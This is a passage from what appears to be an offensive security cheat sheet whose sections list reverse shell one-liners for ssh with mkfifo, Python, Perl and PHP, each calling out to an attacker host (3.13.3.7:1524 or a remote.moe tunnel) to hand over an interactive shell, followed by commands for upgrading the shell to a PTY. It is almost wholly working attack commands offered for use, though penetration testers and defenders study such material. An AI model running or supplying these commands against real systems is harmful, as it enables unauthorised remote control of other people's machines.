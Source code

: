 On the target (alternative; needs ssh, bash and mkfifo):
```sh
rm -f /tmp/.p /tmp/.r; ssh-keygen -q -t rsa -N "" -f /tmp/.r && mkfifo /tmp/.p && (bash -i</tmp/.p  2>1 |ssh -i /tmp/.r -o StrictHostKeyChecking=no -W uydsgl6i62nrr2zx3bgkdizlz2jq2muplpuinfkcat6ksfiffpoa.remote.moe:31337 remote.moe>/tmp/.p &)
```

<a id="reverse-shell-python"></a>
**5.i.h. Reverse shell with Python**
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.13.3.7",1524));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<a id="reverse-shell-perl"></a>
**5.i.i. Reverse shell with Perl**

```sh
# method 1
perl -e 'use Socket;$i="3.13.3.7";$p=1524;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
# method 2
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"3.13.3.7:1524");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
<a id="reverse-shell-php"></a>
**5.i.j. Reverse shell with PHP**

```sh
php -r '$sock=fsockopen("3.13.3.7",1524);exec("/bin/bash -i <&3 >&3 2>&3");'
```

<a id="reverse-shell-upgrade"></a>
<a id="reverse-shell-pty"></a>
**5.ii.a. Upgrade a reverse shell to a PTY shell**

Any of the above reverse shells are limited. For example *sudo bash* or *top* will not work. To make these work we have to upgrade the shell to a real PTY shell:

```sh
# Using script
exec script -qc /bin/bash /dev/null  # Linux
exec script -q /dev/null /bin/bash   # BSD
```

```sh
# Using python
exec python -c 'import pty; pty.spawn("/bin/bash")'
```

<a id="reverse-shell-interactive"></a>
**5.ii.b. Upgrade a reverse shell to a fully interactive shell**

...and if we also like to use Ctrl-C etc then we have to go all the way and upgrade the reverse shell to a real fully colorful interactive shell:
